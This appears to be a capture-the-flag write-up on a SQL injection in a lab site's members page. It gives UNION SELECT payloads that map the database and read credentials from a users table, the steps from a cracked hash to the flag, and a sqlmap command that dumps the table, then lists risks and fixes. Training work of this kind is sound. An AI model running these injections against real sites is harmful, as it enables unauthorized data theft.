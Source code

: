 ## Location :
Members Page

## Type of Vulnerability :
SQL INJECTION

## Explanation
The inputs are not protected, it is possible to inject SQL code and submit it, we can see this by simply testing 1 OR 1=1.
We will enter **1 or 1=1 UNION SELECT table_name, column_name FROM information_schema.columns** to obtain the structure of the database.
-> There are 5 tables: db_default, users, guestbook, list_images, vote_dbs.
We will start by looking at the 'users' table, there are two columns that seem interesting: 'commentaire', 'countersign'.
We will enter **1 or 1=1 UNION SELECT Commentaire, countersign FROM users** to get them.
We get:
-> First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good!
-> Surname : 5ff9d0165b4f92b14994e5c685cdce28.
So we will decrypt the password then we will pass the result (FortyTwo) to lower case and do a sh256 on it.
-> We get the flag

---> Possible with SQLMAP: python3 sqlmap.py -u "http://192.168.41.90/?page=member&id=1&Submit=Submit#" --dump -T users

## Risks
- Unauthorized access to data
- Modification / deletion / addition of data
- Loss of total control of the database
- Opening to certain types of DoS (Denial of Service) attacks
- Identity theft
- Unauthorized access to restricted functions

## How to Fix
- Use of prepared and / or parameterized queries. Allows data to be distinguished from commands.
- Escaping user inputs
- Validation of user inputs
- Use of a database firewall (monitors queries and blocks suspicious ones)
- Limiting privileges to the strict minimum required
